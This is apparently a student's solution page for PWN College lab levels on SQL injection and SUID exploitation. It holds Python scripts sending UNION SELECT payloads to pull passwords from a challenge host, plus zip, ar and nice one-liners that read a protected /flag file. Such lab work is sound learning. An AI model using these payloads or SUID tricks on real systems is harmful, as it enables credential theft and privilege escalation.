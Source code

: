 # LAB-2 SQL Injection and SUID Exploitation from PWN College

## [Press here to return to HOME](../index.md)

## SQL Injection

### Level 3 
```bash
curl "http://challenge.localhost:80/?user=1"
```

### Level 5 
```python 
import requests 

payload = { "query": '" UNION SELECT password FROM users --' } 

response = requests.post("http://challenge.localhost/", params=payload) 
print(response.text)
```

### Level 7
```python 
import requests

payload = {"username": "flag", "password": '" UNION SELECT password, * FROM users --'} 

response = requests.post("http://challenge.localhost/", payload) 
print(response.text)    
```

## SUID Exploitation

### Level 19
```bash
zip flag.zip /flag

unzip -c flag.zip
```

### Level 21
```bash
ar r flag.a /flag

ar p flag.a
```

### Level 27
```bash 
nice cat /flag 
```
